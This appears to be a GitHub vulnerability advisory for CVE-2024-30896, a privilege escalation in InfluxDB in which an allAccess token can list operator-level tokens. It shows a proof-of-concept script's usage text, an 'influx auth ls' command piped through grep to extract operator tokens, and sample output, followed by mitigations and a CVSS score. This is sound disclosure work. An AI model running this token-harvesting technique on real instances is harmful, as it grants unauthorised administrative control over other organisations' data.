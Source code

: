 # CVE-2024-30896

## Summary
A business logic flaw in influxdb allows users who own a valid allAccess token to escalate their privileges at operator level by listing current authorization tokens.

## Scenario
Attacker might be a user which was gained access by an administrator via an allAccess token only within their organization. 
This user's permissions will allow full control over the organization but will still prevent him to interact with other orgs. 

## Impact
This vulnerability would allow a user to obtain unrestricted access to the influxdb instance. A similar condition might fully compromise Confidentiality, Integrity and Availability of data owned by users of different organizations. Additionally, since operator token has administrative permissions, Availability and Integrity of the entire influxdb instance might be compromised.

## Prerequisites/Limitations
1. Attacker must have a valid allAccess token
2. allAccess token must have been created in the same Org where an operator token resides (ex. same Org as Admin user)
3. Attacker must be able to interact with influxdb instance via CLI or APIs (influxClient)

### Case 1: Exploitation via influxdb APIs: 
*Script usage*
```
% python3 ./influxdbPrivescCVE_PoC.py -h
usage: influxdbPrivescCVE_PoC.py [-h] [-t TOKEN] [-e ENDPOINTURL] [-v [VERBOSE]] [-vv [VVERBOSE]]

optional arguments:
  -h, --help            show this help message and exit
  -t TOKEN, --token TOKEN
                        Custom or allAccess token to access influx DB instance
  -e ENDPOINTURL, --endpointUrl ENDPOINTURL
                        Endpoint Url of influxdb instance (ex. "https://myInfluxdbInstance:8086/")
  -v [VERBOSE], --verbose [VERBOSE]
                        Enable verbose logging - INFO
  -vv [VVERBOSE], --vverbose [VVERBOSE]
                        Enable verbose logging - DEBUG
```

### Case 2: Exploitation via influx CLI
1. Execute: `influx auth ls -t <allAccessToken> | grep write:/orgs`. This will list all current active operator tokens on the influxdb instance.

*Example*
```
# Using an allAccess token 
influx auth ls -t U1OuqmFC{REDACTED} | grep U1OuqmFC{REDACTED}

0cc41c3b050e5000							U1OuqmFC{REDACTED}	
admin		0cb9c92ee228b000	[read:orgs/87d0746948a3b3f5/authorizations write:orgs/87d0746948a3b3f5/authorizations read:orgs/87d0746948a3b3f5/buckets write:orgs/87d0746948a3b3f5/buckets read:orgs/87d0746948a3b3f5/dashboards write:orgs/87d0746948a3b3f5/dashboards read:/orgs/87d0746948a3b3f5 read:orgs/87d0746948a3b3f5/sources write:orgs/87d0746948a3b3f5/sources read:orgs/87d0746948a3b3f5/tasks write:orgs/87d0746948a3b3f5/tasks read:orgs/87d0746948a3b3f5/telegrafs write:orgs/87d0746948a3b3f5/telegrafs read:/users/0cb9c92ee228b000 write:/users/0cb9c92ee228b000 read:orgs/87d0746948a3b3f5/variables write:orgs/87d0746948a3b3f5/variables read:orgs/87d0746948a3b3f5/scrapers write:orgs/87d0746948a3b3f5/scrapers read:orgs/87d0746948a3b3f5/secrets write:orgs/87d0746948a3b3f5/secrets read:orgs/87d0746948a3b3f5/labels write:orgs/87d0746948a3b3f5/labels read:orgs/87d0746948a3b3f5/views write:orgs/87d0746948a3b3f5/views read:orgs/87d0746948a3b3f5/documents write:orgs/87d0746948a3b3f5/documents read:orgs/87d0746948a3b3f5/notificationRules write:orgs/87d0746948a3b3f5/notificationRules read:orgs/87d0746948a3b3f5/notificationEndpoints write:orgs/87d0746948a3b3f5/notificationEndpoints read:orgs/87d0746948a3b3f5/checks write:orgs/87d0746948a3b3f5/checks read:orgs/87d0746948a3b3f5/dbrp write:orgs/87d0746948a3b3f5/dbrp read:orgs/87d0746948a3b3f5/notebooks write:orgs/87d0746948a3b3f5/notebooks read:orgs/87d0746948a3b3f5/annotations write:orgs/87d0746948a3b3f5/annotations read:orgs/87d0746948a3b3f5/remotes write:orgs/87d0746948a3b3f5/remotes read:orgs/87d0746948a3b3f5/replications write:orgs/87d0746948a3b3f5/replications]

# Listing all available tokens passing allAccess token and retrieving only operator level tokens
influx auth ls -t U1OuqmFC{REDACTED} | grep write:/orgs

0cbb920e128e5000							gerKYLO0Ph_ibUk0y{REDACTED}
admin		0cb9c92ee228b000	[read:/authorizations write:/authorizations read:/buckets write:/buckets read:/dashboards write:/dashboards read:/orgs write:/orgs read:/sources write:/sources read:/tasks write:/tasks read:/telegrafs write:/telegrafs read:/users write:/users read:/variables write:/variables read:/scrapers write:/scrapers read:/secrets write:/secrets read:/labels write:/labels read:/views write:/views read:/documents write:/documents read:/notificationRules write:/notificationRules read:/notificationEndpoints write:/notificationEndpoints read:/checks write:/checks read:/dbrp write:/dbrp read:/notebooks write:/notebooks read:/annotations write:/annotations read:/remotes write:/remotes read:/replications write:/replications]
```

## Potential root cause
allAccess tokens by default have permissions to list all authorizations that are defined in the same Org with no restrictions based on type (custom, allAccess, operator) -> `read:orgs/87d0746948a3b3f5/authorizations`. 

## Temporary Mitigation
When run, `influx setup` will create the first (default) org, in which an operator token will automatically be stored. Users should be granted access only to secondary created organizations.
It is recommended to create multiple organizations and pass the users only the ones which does not contain an operator token. 

## Recommendations
- Do not share any organization which contains an operator token
- Avoid storing operator tokens in non-default orgs

**CVSS Base Score**: 9.1
 
**CVSS v3.1 Vector**: [AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H&version=3.1)
